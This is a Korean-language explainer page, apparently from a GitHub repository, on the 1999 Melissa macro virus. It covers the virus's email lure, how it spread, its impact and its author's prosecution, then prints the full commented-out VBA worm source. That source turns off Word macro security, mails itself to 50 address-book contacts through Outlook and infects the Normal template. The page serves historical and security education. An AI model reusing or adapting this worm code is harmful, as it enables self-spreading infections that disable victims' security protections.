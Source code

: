 # Melissa Virus

**1999년 3월 26일** 이메일 클라이언트 Outlook 97, 98로 부터 대량의 메일이 전송되었다.
메일의 형식은 다음과 같다
```
보낸이: <감염 자료를 보낸사람의 이름>
제목: Important message from
받는이 <50개의 메일을 받는 사람>
첨부파일: LIST.DOC
본문: Here is that document you asked for ... don't show anyone else ;-)TCizzle
```
![melissa](meilssa.png)

이러한 형식으로 보내진 메일은 사용자가 메일을 열어 **LIST.DOC** 파일을 실행시키면 DOC파일에 들어있는 악성코드가 자동으로 해당 유저의 주소록을 뒤져 50통의 악성코드 멜리사가 들어있는 메일을 전송한다.

1999년 3월 26일 처음 발견된 **멜리사 바이러스**(Melissa Virus)는 단 45분 만에 직원수가 500명이 되는 기업에서 쌓이는 메일을 감당하지 못하고 오버플로우를 일으켜 메일을 차단하게 만들었으며 1주일만에 최소 300개의 기관, 컴퓨터 10만대를 감염시켰다.

멜리사 바이러스의 개발자는 당시 31세의 프로그래머로 **데이비드 스미스**(David L. Smith)라는 뉴저지 카운티에 AT&T의 협력업체에서 일하는 평범한 사람이었다.
![David](David.png)
멜리사는 처음부터 컴퓨터를 망가뜨리기 위한 목적으로 만든것이 아닌 순전히 심심풀이로 만든것으로 알려져 있다. 하지만 E-mail을 통해 순식간에 확산된 멜리사는 수 많은 컴퓨터를 감염시켰으며 결국 FBI가 나서 체포를 하게 되었다.

이는 **바이러스 개발혐의로** 기소된 **최초의 인물**이었다. 데이비드는 이 사건으로 징역 40년과 48만 달러의 벌금을 물기로 되어 있어으나 FBI 수사에 협조한다는 조건으로 징역 20개월과 벌금5000달러라는 최종 판결이 내려졌다.

멜리사 바이러스(Melissa Virus) 혹은 사이버 패스트(Cyber Fast) 라고도 불리는 바이러스는 **매크로 바이러스**(Macro Virus)에 일종으로 MS 워드 , 엑셀과 같이 매크로 언어를 지원하는 문서파일에 기생하는 바이러스이다. 매크로 바이러스는 문서가 닫히거나 열릴때 자동적으로 실행되며 일반적으로 문서의 일반 매크로를 바이러스로 바꾸어 감염시키는 방법이다.

매크로 바이러스는 **운영체제**(OS)에 관계없이 동작하는 응용프로그램 내부에서 동작하는 것이 가능한 바이러스이다. 때문에 Window, Mac과 같은 운영체제와 관계없이 Ms 워드와 같이 매크로 언어를 지원하는 응용프로그램만 있다면 감염이 가능하다.

---

## Melissa Virus Source Code
```VB
'Private Sub Document_Open()
'On Error Resume Next
'IF System.PrivateProfileString("",
'"HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security", '"Level") <> ""
'Then
'CommandBars("Macro").Controls("Security...").Enabled = False
'System.PrivateProfileString("",
'"HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security", '"Level") = 1&
'Else
'CommandBars("Tools").Controls("Macro").Enabled = False
'Options.ConfirmConversions = (1 - 1): Options.VirusProtection = '(1 - 1):
'Options.SaveNormalPrompt = (1 - 1)
'End If
'Dim UngaDasOutlook, DasMapiName, BreakUmOffASlice
'Set UngaDasOutlook = CreateObject("Outlook.Application")
'Set DasMapiName = UngaDasOutlook.GetNameSpace("MAPI")
'If System.PrivateProfileString("",
'"HKEY_CURRENT_USER\Software\Microsoft\Office\", "Melissa?") <> "... by Kwyjibo"
'Then
'If UngaDasOutlook = "Outlook" Then
'DasMapiName.Logon "profile", "password"
'   For y = 1 To DasMapiName.AddressLists.Count
'       Set AddyBook = DasMapiName.AddressLists(y)
'       x = 1
'       Set BreakUmOffASlice = UngaDasOutlook.CreateItem(0)
'       For oo = 1 To AddyBook.AddressEntries.Count
'           Peep = AddyBook.AddressEntries(x)
'           BreakUmOffASlice.Recipients.Add Peep
'           x = x + 1
'           If x > 50 Then oo = AddyBook.AddressEntries.Count
'        Next oo
'        BreakUmOffASlice.Subject = "Important Message From " &
'Application.UserName
'        BreakUmOffASlice.Body = "Here is that document you asked 'for ... don't
'show anyone else ;-)"
'        BreakUmOffASlice.Attachments.Add ActiveDocument.FullName
'        BreakUmOffASlice.Send
'        Peep = ""
'   Next y
'DasMapiName.Logoff
'End If
'System.PrivateProfileString("", '"HKEY_CURRENT_USER\Software\Microsoft\Office\",
'"Melissa?") = "... by Kwyjibo"
'End If
''Set ADI1 = ActiveDocument.VBProject.VBComponents.Item(1)
'Set NTI1 = NormalTemplate.VBProject.VBComponents.Item(1)
'NTCL = NTI1.CodeModule.CountOfLines
'ADCL = ADI1.CodeModule.CountOfLines
'BGN = 2
'If ADI1.Name <> "Melissa" Then
'If ADCL > 0 Then _
'ADI1.CodeModule.DeleteLines 1, ADCL
'Set ToInfect = ADI1
'ADI1.Name = "Melissa"
'DoAD = True
'End If
'If NTI1.Name <> "Melissa" Then
'If NTCL > 0 Then _
'NTI1.CodeModule.DeleteLines 1, NTCL
'Set ToInfect = NTI1
'NTI1.Name = "Melissa"
'DoNT = True
'End If
''If DoNT <> True And DoAD <> True Then GoTo CYA
'If DoNT = True Then
'Do While ADI1.CodeModule.Lines(1, 1) = ""
'ADI1.CodeModule.DeleteLines 1
'Loop
'ToInfect.CodeModule.AddFromString ("Private Sub Document_Close()'")
'Do While ADI1.CodeModule.Lines(BGN, 1) <> ""
'ToInfect.CodeModule.InsertLines BGN, ADI1.CodeModule.Lines(BGN, '1)
'BGN = BGN + 1
'Loop
'End If
'If DoAD = True Then
'Do While NTI1.CodeModule.Lines(1, 1) = ""
'NTI1.CodeModule.DeleteLines 1
'Loop
'ToInfect.CodeModule.AddFromString ("Private Sub Document_Open()")
'Do While NTI1.CodeModule.Lines(BGN, 1) <> ""
'ToInfect.CodeModule.InsertLines BGN, NTI1.CodeModule.Lines(BGN, '1)
'BGN = BGN + 1
'Loop
'End If
'CYA:
'If NTCL <> 0 And ADCL = 0 And (InStr(1, ActiveDocument.Name, "Document") =
'False) Then
'ActiveDocument.SaveAs FileName:=ActiveDocument.FullName
'ElseIf (InStr(1, ActiveDocument.Name, "Document") <> False) Then
'ActiveDocument.Saved = True: End If
'WORD/Melissa written by Kwyjibo
'Works in both Word 2000 and Word 97
'Worm? Macro Virus? Word 97 Virus? Word 2000 Virus? You Decide!
'Word -> Email | Word 97 <--> Word 2000 ... it's a new age!
'If Day(Now) = Minute(Now) Then Selection.TypeText " Twenty-two points, plus
'triple-word-score, plus fifty points for using all my letters.  'Game's over.
'I'm outta here."
'End Sub
```
### [Source Code](http://www.rohitab.com/discuss/topic/994-melissa-source-code/)
---
# 참조
https://ko.wikipedia.org/wiki/%EB%A9%80%EB%A6%AC%EC%82%AC_%EC%9B%9C

http://news.khan.co.kr/kh_news/khan_art_view.html?art_id=200903251757125

https://www.donga.com/news/Inter/article/all/19990826/7465085/1

http://news.grayhash.com/html/category/malware/f84e7557a7.html

http://www.rohitab.com/discuss/topic/994-melissa-source-code/

https://www.linux.co.kr/home/lecture/index.php?cateNo=7&secNo=492&theNo=&leccode=523

https://m.blog.naver.com/wnrjsxo/221721852010

https://photohistory.tistory.com/15791